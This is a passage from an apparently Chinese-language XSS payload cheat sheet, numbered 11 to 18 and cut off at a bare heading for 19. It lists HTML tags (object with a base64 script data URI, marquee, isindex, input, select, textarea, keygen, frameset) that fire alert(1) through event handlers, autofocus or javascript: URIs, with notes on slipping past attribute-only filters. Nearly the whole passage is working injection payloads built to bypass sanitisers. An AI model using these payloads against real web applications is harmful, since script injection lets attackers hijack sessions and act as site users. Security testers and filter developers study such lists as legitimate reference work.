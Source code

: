 11. object标签

    和a标签的href属性的玩法是一样的，优点是无需交互。

    ```Html
    <object data=data:text/html;base64,PHNjcmlwdD5hbGVydCgiS0NGIik8L3NjcmlwdD4=></object>
    ```

12. marquee标签

    ```Html
    <marquee onstart="alert('1')"></marquee>
    ```

13. isindex标签

    在一些只针对属性做了过滤的webapp中，action很有可能是漏网之鱼。

    ```html
    <isindex type=image src=1 onerror=alert(1)> 
    ```

    ```html
    <isindex action=javascript:alert(1) type=image>
    ```

14. input标签

    通过event来调用js。和button一样通过autofocus可以达到无需交互即可弹窗的效果。

    ```html
    <input onfocus=javascript:alert(1) autofocus> 

    <input onblur=javascript:alert(1) autofocus><input autofocus>
    ```

15. select标签

    ```Html
    <select onfocus=javascript:alert(1) autofocus>
    ```

16. textarea标签

    ```Html
    <textarea onfocus=javascript:alert(1) autofocus>
    ```

17. keygen标签

    ```html
    <keygen onfocus=javascript:alert(1) autofocus>
    ```

18. frameset标签

    ```html
    <FRAMESET><FRAME SRC="javascript:alert(1);"></FRAMESET> 
    ```

19. embed标签
